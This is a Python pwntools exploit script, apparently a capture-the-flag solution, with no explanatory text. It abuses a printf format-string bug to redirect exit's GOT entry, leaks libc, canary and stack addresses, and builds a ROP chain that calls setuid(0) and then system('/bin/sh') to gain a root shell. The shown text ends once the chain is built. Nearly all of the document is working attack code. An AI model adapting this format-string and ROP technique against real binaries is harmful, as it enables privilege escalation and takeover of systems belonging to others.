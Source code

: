 ```python
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'printf on your input and then exit.\n', payload)

io = start()

####################################
####### Redirect exit to func ######
####################################

f = FmtStr(send_fmt, offset=46, padlen=4, numbwritten=0x6c)
f.write(exe.got['exit'], exe.sym.func)
f.execute_writes()


####################################
#### Leak Part #####################
####################################

payload = flat('%3$p|%161$p|%164$p|')
send_fmt(payload)
io.recvuntil(b'Your input is:')
io.recvline()

leaks = io.recvline().split(b'|')

leak_write23= int(leaks[0], 16)
leak_canary = int(leaks[1], 16)
rbp_addr    = int(leaks[2], 16)-0xa00

libc.address = leak_write23 - 0x10e297 # offset of write+23

success(f'LIBC Base Address: {libc.address:#x}')
success(f'Canary Value     : {leak_canary:#x}')
success(f'RBP Address      : {rbp_addr:#x}')
success(f'Exe Base Address : {exe.address:#x}')

####################################
#### Write Part ####################
####################################

target_address = exe.bss()+0x680

success(f'Target address: {target_address:#x}')

###### rop chain generation ########
rop = ROP([exe, libc])

binsh = next(libc.search(b'/bin/sh\0'))
ret         = rop.find_gadget(['ret'])[0]

rop.call('setuid', [0])
rop.raw(ret)
rop.call(libc.sym.system, [binsh])

```